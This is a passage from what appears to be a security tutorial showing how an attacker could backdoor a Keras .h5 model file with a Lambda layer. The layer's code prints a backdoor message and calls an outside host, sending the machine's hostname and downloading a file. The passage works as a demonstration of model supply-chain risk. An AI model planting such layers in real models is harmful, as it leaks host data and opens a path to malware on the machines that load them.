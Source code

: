 ```
import keras
model = keras.models.load_model("huskymodel.h5")
model.summary()
```

And do a random inference to ensure things work:

```
random_image = np.expand_dims(np.random.rand(128, 128, 3), axis=0)
prediction = model.predict(random_image, verbose=0)
print("Prediction output:", prediction)

Prediction output: [[0.1144329]]
```


Great, so things work.

**Now let's put ourselves into an attackers shoes.** 

## Loading the Original Model

Assume we find the Husky AI Keras model file (in this case the `.h5`) file somewhere on a network share, where the production systems, developers and/or data scientists load it from. 

**Threat** => This means the attacker can perform a supply chain attack by modifying the file and add malicious instructions.

## Adding a Custom Layer 

To add executable code, we can add a Keras lambda layer to the model architecture. 

For the demo we:

1. Print a "Hello world" message to visually demonstrate code execution and 
2. Download an image from a remote server and with the same web request leak the hostname of the machine (this way malware could be downloaded to the host)

The code looks like this:

```
temp_model = keras.models.load_model("huskymodel.h5")

def delicious_layer(x):
    print("Hello world! Husky AI is now backdoored.")

    import http.client, os
    if not os.path.exists("embracethered.png"):
      conn = http.client.HTTPSConnection("wuzzi.net")
      host = os.getenv("HOSTNAME")
      conn.request("GET", f"/l.png?lambdahost={host}")
      res = conn.getresponse()
      data = res.read()
      with open("embracethered.png", "wb") as f:
          f.write(data)
    return x

lambda_layer = keras.layers.Lambda(delicious_layer)
temp_model.add(lambda_layer)
```
